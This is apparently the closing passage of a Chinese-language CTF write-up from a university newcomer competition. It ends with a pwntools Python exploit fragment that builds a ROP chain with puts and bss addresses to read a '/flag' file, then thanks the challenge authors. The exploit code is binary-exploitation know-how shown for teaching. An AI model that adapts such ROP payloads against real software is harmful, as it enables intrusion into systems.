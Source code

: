 ```python
stack += '/flag\0\0\0'
stack += p64(0xdeadbeef)*5
# pust(bss_base)
stack += p64(prdi) + p64(bss_base) + p64(puts_plt) + p64(0xdeadbeef) 

ru('think so?')
sl('TaQini!!'+stack)
rc()
# debug()
sl(payload)
# sleep(3)
sl('TaQini is here~~~')

p.interactive()
```

### week4

week4只有两道题，想必是极难的，week3也还剩下3道题，留个坑，以后看。

(杭电出的题目，水准很高~ 必须点个赞^_^)



## 结尾

这次春节蹭新生赛，真是涨了不少姿势，感谢出题的杭电师傅们，感谢[imagin](https://imagin.vip/)师傅的帐号~

